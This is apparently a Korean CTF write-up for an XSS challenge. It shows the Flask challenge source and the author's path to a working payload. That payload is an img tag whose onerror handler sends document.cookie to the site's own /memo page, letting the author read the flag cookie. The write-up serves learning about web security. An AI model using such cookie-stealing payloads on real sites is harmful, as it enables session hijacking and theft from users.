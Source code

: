 ```python
def vuln():
    return render_template("vuln.html")


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

CSRF 문제와 형식이 유사한 듯한데, 이번엔 FLAG 값이 `value` 키의 값으로 전달되어진다. 물론 우리가 확인할 수 있는 것은 아니고, `read_url()` 함수 실행 시 인자로 전달되어지기 때문에 적당~한 스크립트로 쿠키 정보를 가져와야 할듯하다. 근데 재밌는 점은 vuln 페이지에서 스크립트 문이 안먹는다.

![image-20220621195447674](../img/image-20220621195447674.png)

분명 `param`으로 전달하여 html에는 적혔으나 실행이 안된다. 그래서 `img` 태그를 사용해보니 잘된다. 그리고 또 생각해야할 점은 어딘가에 쿠키값을 적어둬야 확인이 가능하다. 아마도 `memo()`를 이용해보면 되지 않을까?

```html
<img src="X" onerror="location.href('/memo?memo='+document.cookie);"> <!--함수 사용법 이슈-->
<img src="X" onerror="location.href='/memo?memo='+document.cookie">
```

`location.href`를 php의 `history.go()`처럼 생각해서 잠깐 헤맸는데 뭔가 이상하다 싶어서 구글링하여 찾아냈다. 생각보다 여태 풀어온 문제들 덕분인지 시도가 막혀도 막막한 느낌만 드는건 아니다. 다른 방도가 있겠지라는 생각으로 이어지는게 참 좋은 습관인 것 같다.

![image-20220621202738100](img/image-20220621202738100.png)



근데 문제를 풀고나서야 웹사이트 이름은 XSS-1인데 문제 이름은 XSS-2 인것을 알았다.
